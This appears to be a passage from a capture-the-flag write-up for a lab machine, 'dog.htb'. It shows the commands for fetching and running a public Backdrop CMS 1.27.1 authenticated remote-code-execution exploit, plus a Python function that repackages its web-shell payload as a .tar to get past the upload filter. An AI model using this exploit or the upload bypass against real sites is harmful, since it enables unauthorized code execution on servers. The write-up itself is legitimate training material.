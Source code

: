 

### Public Exploit - Backdrop CMS 1.27.1 - Authenticated RCE

The version of backdrop is the 1.27.1, search it on google we have found a public exploit about a Authenticated Remote Code Execution.&#x20;

{% embed url="https://www.exploit-db.com/exploits/52021" %}

The exploit contains a methods to create a .zip payload with a shell inside to be installed as a module in the backdrop control panel.

```bash
searchsploit -m 52021 # copy the public exploit

python3 52021.py http://dog.htb # generate shell.zip payload
```

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

The script will create a .zip file and the control panel don't allow us to upload this type of file.

We could change the exploit adding this method:

```python
def create_tar(info_path, php_path):
    tar_filename = "shell.tar"
    with tarfile.open(tar_filename, 'w') as tarf:
        tarf.add(info_path, arcname='shell/shell.info')
        tarf.add(php_path, arcname='shell/shell.php')
    return tar_filename
```

This method will creates a .tar dir with the same content of .zip dir, and allow us to upload the payload
